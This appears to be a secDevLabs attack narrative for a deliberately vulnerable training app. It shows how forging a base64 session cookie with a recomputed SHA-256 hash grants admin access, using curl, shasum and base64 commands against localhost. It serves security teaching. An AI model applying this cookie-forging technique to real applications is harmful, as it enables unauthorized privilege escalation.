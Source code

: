 # Attack Narrative - Saidajaula Monster Fit

The main goal of this documentation is to describe how a malicious user could exploit a Broken Authentication vulnerability intentionally installed on Saidajaula Monster Fit from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a2/saidajaula-monster) yet, you should check them before reading this narrative.

----

## 👀

It's possible to reach the server's web application through the HTTP port 10082, as we can see from the image below:

<p align="center">
    <img src="../images/img1.png"/>
</p>

We can sign-up for a new account by clicking the `SIGN UP` button on the top right corner. Then, we are redirected to the `/register` page. As shown by the image below:

<p align="center">
    <img src="attack1.png"/>
</p>

After creating an account, we are redirected to the `/login` page and, to better understand how the application is handling the requests, we will perform a login using the following `curl` command. As shown by the image:

```sh
curl -i -L localhost:10082/login -F "username=daniel" -F "password=daniel" -X POST
```

<p align="center">
    <img src="attack2.png"/>
</p>

As we can see from the image above, the application sets a cookie for the user, `sessionId`. By having a better look at this cookie, we find out that it is actually base64 encoded, and it's content are as following:

<p align="center">
    <img src="attack3.png"/>
</p>

Now, by having a look at the app's code, it's possible to see that all the information to generate this cookie is known to any user, as shown by the following image:

<p align="center">
    <img src="attack4.png"/>
</p>

## 🔥

Knowing how the cookie is being generated, a malicious user could create his own to gain access to pages he shouldn't have. An attacker could obtain admin privileges by changing the cookie's `permission` field, as depicted by the image below:

<p align="center">
    <img src="attack5.png"/>
</p>

It is also possible to generate this cookie from terminal using `shasum` command: 

```sh
echo -n '{"permissao": 1, "username": "daniel"}' | shasum -a 256
```

After that, the attacker needs to concatenate the cookie's fields and the hash, separated by a dot. As shown by the following image:

<p align="center">
    <img src="attack6.png"/>
</p>

The server expects the cookie to be in base64 format, so the attacker needs to encode his cookie. As we can see from the image below using the command:

```sh
echo -n '{"permissao": 1, "username": "daniel"}.35771d6998cf216aa3297d1fb54462e04d85443be6092a02961b52b24c2d3250' | base64
```

<p align="center">
    <img src="attack7.png"/>
</p>

Now, all an attacker needs to do is try to access the `/admin` only page. As shown by the image below:

```sh
curl -v --cookie "sessionId=eyJwZXJtaXNzYW8iOiAxLCAidXNlcm5hbWUiOiAiZGFuaWVsIn0uMzU3NzFkNjk5OGNmMjE2YWEzMjk3ZDFmYjU0NDYyZTA0ZDg1NDQzYmU2MDkyYTAyOTYxYjUyYjI0YzJkMzI1MA==" http://localhost:10082/admin
```

<p align="center">
    <img src="attack8.png"/>
</p>
